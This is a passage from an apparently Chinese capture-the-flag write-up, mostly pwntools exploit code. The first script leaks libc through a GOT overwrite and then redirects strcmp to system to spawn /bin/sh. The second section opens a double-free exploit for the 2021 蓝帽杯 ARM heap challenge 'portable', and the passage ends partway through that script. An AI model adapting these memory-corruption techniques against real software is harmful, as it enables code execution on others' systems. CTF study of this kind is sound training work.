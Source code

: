 ```
io.sendline("add WINMT")
sleep(0.1)
io.sendline("CTF")
sleep(0.1)
io.sendline("PWNER")
sleep(0.1)
 
io.sendline("del winmt")
sleep(0.1)
 
io.sendline("edit WINMT")
sleep(0.1)
io.sendline("CTF")
sleep(0.1)
io.sendline(b'a'*0x38 + p32(elf.got['strcmp']))
sleep(0.1)
io.sendline(str(2333))
sleep(0.1)
 
io.recv()
io.sendline("show winmt")
io.recvuntil("  Desc:  ")
libc.address = u32(io.recv(4)) - libc.sym['strcmp']
success("libc_base:\t" + hex(libc.address))
 
io.sendline("edit winmt")
sleep(0.1)
io.sendline("ctf")
sleep(0.1)
io.sendline(p32(libc.sym['system']) + p32(libc.sym['fflush']))
sleep(0.1)
io.sendline(str(6666))
sleep(0.1)
 
io.sendline("/bin/sh\x00")
io.interactive()

```

### 2021 蓝帽杯 portable

`arm`架构下很简单的一道堆题，漏洞点就在`switch`没有`default`卡住，导致可以继续向下执行，继而可以弄出`double free`。

```
from pwn import *
context(os = "linux", arch = 'arm', log_level = 'debug')
 
io = process("qemu-arm -L ./ ./pwn", shell = True)
 
elf = ELF("./pwn")
libc = ELF("./lib/libc-2.27.so")
 
def create(role, size = 0, name = "winmt"):
    io.sendlineafter(">> ", b'1')
    io.sendlineafter(">> ", str(role))
    if role == 0 :
        return
    io.sendlineafter("size?\n", str(size))
    io.sendafter("name?\n", name)
 
def delete(idx):
    io.sendlineafter(">> ", b'2')
    io.sendlineafter("index?\n", str(idx))
 
```
